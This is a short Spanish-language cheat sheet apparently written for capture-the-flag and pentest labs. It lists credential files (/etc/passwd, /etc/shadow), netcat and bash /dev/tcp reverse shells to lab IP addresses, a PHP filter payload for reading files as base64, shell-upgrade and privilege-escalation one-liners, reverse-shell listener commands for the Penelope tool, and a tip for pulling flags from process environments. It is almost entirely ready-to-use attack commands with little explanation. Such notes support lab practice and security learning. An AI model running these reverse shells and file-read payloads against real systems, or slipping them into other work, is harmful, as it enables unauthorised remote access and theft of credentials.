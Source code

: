 # Tips generales

### Directorios Principales

`/etc/passwd`
`/etc/shadow`

## Reverse Shell
```shell
nc 10.10.14.1 4444 # comunmente bloqueado
```
```shell
nc -e /bin/bash 10.10.14.1 4444
```

## PHP

### Encodear
`php://filter/convert.base64-encode/resource=FILENAME`

## Python

### Upgrade the shell  
```python
# python
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
# Bash: No guarda logs
script -qc /bin/bash /dev/null
```

### Priv Esc

#### Python
`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
#### Shell


## Extras

- Penelope: https://github.com/brightio/penelope

```shell
bash -c 'exec bash >& /dev/tcp/10.10.12.178/4444 0>&1 &'
```

```shell
penelope                          # Listening for reverse shells on 0.0.0.0:4444
penelope -a                       # Listening for reverse shells on 0.0.0.0:4444 and show reverse shell payloads based on the current Listeners
penelope -p 5555                  # Listening for reverse shells on 0.0.0.0:5555
penelope -i eth0 -p 5555          # Listening for reverse shells on eth0:5555
penelope -c target -p 3333        # Connect to a bind shell on target:3333
penelope ssh user@target          # Get a reverse shell from target on local port 4444
penelope -p 5555 ssh user@target  # Get a reverse shell from target on local port 5555
penelope -i eth0 -p 5555 -- ssh -l user -p 2222 target  # Get a reverse shell from target on eth0, local port 5555 (use -- if ssh needs switches)
penelope -s <File/Folder>         # Share a file or folder via HTTP
```

- Ghidra
- IDA
- Decompiler Online: https://dogbolt.org

### Tips

#### echoCTF

`strings /proc//environ | grep "ETSCTF"`